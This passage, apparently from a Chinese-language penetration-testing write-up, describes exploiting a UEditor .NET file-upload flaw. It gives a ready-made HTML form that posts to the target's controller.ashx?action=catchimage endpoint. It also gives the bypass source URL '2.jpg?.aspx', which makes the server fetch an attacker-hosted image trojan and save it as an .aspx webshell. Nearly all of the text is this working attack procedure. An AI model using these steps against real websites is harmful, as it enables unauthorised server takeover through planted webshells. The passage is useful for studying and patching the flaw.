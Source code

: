 然后图片马上传到公网服务器上

[![](assets/1705301733-d26c79b5710ed5b82359ac94926f9055.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140005-d4f3816e-b10f-1.png)

本地构造一个上传的 form 表单

```bash
<form action="http://www.xxx.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```

上传图片马，上传地址修改为：[http://192.168.8.198/2.jpg?.aspx](http://192.168.8.198/2.jpg?.aspx)

[![](assets/1705301733-a73ad61a29b9b08321138b5095a299a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140017-dc1cd8be-b10f-1.png)
